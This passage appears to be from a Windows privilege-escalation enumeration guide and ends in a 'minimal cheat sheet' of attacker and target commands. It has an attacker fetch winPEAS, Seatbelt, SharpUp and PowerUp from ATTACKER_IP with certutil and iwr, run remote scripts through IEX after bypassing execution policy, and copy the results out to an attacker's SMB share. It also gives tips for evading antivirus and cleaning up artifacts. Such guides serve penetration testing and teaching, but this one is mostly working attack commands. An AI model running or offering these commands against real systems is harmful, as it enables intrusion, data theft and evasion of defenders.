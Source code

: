 ```
# Optionally remove PS scripts and working dir (ensure you won’t need them)
# Remove-Item .\PowerUp.ps1,.\PrivescCheck.ps1 -Force -ErrorAction SilentlyContinue
# Remove-Item $wd -Recurse -Force
```

WES-NG (Windows Exploit Suggester) on attacker
```
# Install and update database
pipx install wesng || pip3 install wesng
wesng --update || python3 -m wesng --update

# Use the systeminfo.txt you exfiltrated
wesng -i systeminfo.txt -o wes-results.txt
# Or (depending on install method)
python3 -m wesng -i systeminfo.txt -o wes-results.txt
```

Alternative transfers (target, CMD)
```
:: certutil download
certutil -urlcache -split -f http://ATTACKER_IP:8000/winPEASany.exe C:\ProgramData\enum\winPEASany.exe

:: SMB mapping/copy (may work unauthenticated against impacket-smbserver)
net use \\ATTACKER_IP\loot
copy C:\ProgramData\enum\enum-results.zip \\ATTACKER_IP\loot\
```

# Practical tips
- Prefer common writable dirs: C:\ProgramData, C:\Users\Public, or %TEMP%.
- Use 64-bit binaries on 64-bit Windows to avoid WOW64 blind spots.
- If Defender/AV flags a tool, try:
  - Renaming the file
  - Using the PowerShell script variant (PowerUp/PrivescCheck)
  - Running a “quieter” tool like Seatbelt first
  - Zipping/encrypting in transit and extracting locally
- Always save outputs to files for offline analysis; don’t rely on scrollback.
- If PowerShell constrained language mode is enforced, fall back to native commands and winPEASany.exe.
- Collect systeminfo and whoami /all early; they’re fast and feed other tools (like WES-NG).
- Network egress blocked? Use SMB exfil with impacket-smbserver or encode output inline (Base64) if needed.
- Clean up artifacts to reduce footprint; keep hashes or copies on your box for reporting.
- Combine tool findings: no single tool catches all privesc vectors.

# Minimal cheat sheet (one-screen flow)
```
# Attacker
cd ~/win-enum && python3 -m http.server 8000
impacket-smbserver loot ~/win-enum -smb2support

# Target (PowerShell)
$att="ATTACKER_IP"; $port=8000; $wd="$env:ProgramData\enum"
mkdir $wd -Force | Out-Null; cd $wd
whoami /all > whoami.txt; systeminfo > systeminfo.txt; ipconfig /all > ip.txt
iwr http://$att:$port/winPEASany.exe -OutFile wp.exe; .\wp.exe > winpeas.txt
iwr http://$att:$port/Seatbelt.exe   -OutFile sb.exe; .\sb.exe -group=all > seatbelt.txt
iwr http://$att:$port/SharpUp.exe    -OutFile su.exe; .\su.exe audit > sharpup.txt
Set-ExecutionPolicy Bypass -Scope Process -Force
IEX(iwr http://$att:$port/PowerUp.ps1); Invoke-AllChecks > powerup.txt 2>&1
IEX(iwr http://$att:$port/PrivescCheck.ps1); Invoke-PrivescCheck > privesccheck.txt 2>&1
Compress-Archive -Path *.txt -DestinationPath enum-results.zip -Force
Copy-Item .\enum-results.zip "\\$att\loot\enum-results.zip"
```